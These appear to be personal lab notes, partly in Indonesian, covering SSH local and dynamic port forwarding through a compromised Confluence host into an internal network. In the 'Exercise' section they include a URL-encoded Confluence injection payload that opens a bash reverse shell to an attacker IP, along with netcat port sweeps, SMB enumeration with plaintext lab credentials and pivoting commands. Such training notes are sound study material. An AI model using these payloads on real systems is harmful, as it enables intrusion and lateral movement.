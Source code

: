 >> We will instruct SSH to listen on all interfaces on port 4455 on CONFLUENCE01 (0.0.0.0:4455), then forward all packets (through the SSH tunnel to PGDATABASE01) to port 445 on the newly-found host (172.16.198.217:445).
>> Setelah masukkin ssh password gk akan ada output karena kita pake -N (prevent a shell from being opened)
>> Kalo kita check dari mesin CONFLUENCE01, kita listen di port 4455 as expected
```bash
ss -ntplu
```
5) Dari Kali Machine, tinggal enumerate SMB di 172.16.198.217:445 Lewat <IP_CONFLUENCE>:4455
```bash
smbclient -p 4455 -L //192.168.198.63/ -U hr_admin --password=Welcome1234
```
>> Ada scripts share
```bash
smbclient -p 4455 //192.168.198.63/scripts -U hr_admin --password=Welcome1234
ls
get Provisioning.ps1
```
Exercise:
> Confluence revshell
curl -v http://192.168.198.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.168/1234%200%3E%261%27%29.start%28%29%22%29%7D/

> SSH to db server
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh database_admin@10.4.198.215

> Cari the server running 4455
ip addr
for i in $(seq 1 254); do nc -zv -w 1 172.16.198.$i 4242; done
>> 172.16.198.217 open

> Create SSH Local tunnel to kali
ssh -N -L 0.0.0.0:7777:172.16.198.217:4242 database_admin@10.4.198.215

> Enum SMB
./ssh_local_client -i 192.168.198.63 -p 7777


### SSH DYNAMIC PORT FORWARDING (SOCKS PROXY AND PROXYCHAINS) (BETTER than LOCAL)
Scenario kyk sebelumnya
1) On Foothold Machine (Confluence)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -D 0.0.0.0:1080 database_admin@10.4.198.215
```
>> Kita gk specify ip dan port target lagi. Langsung -D for dynamic aja.
2) On Kali Machine (kita gk bisa pake /etc/proxychains4.conf)
```bash
subl /etc/proxychains.conf
```
>> Tapikan ada bnyk filenya ada proxychains4.conf, proxychains.conf. Yg mana?
https://askubuntu.com/questions/1477928/how-can-i-tell-which-proxychains-config-file-to-use-if-i-have-proxychains-conf
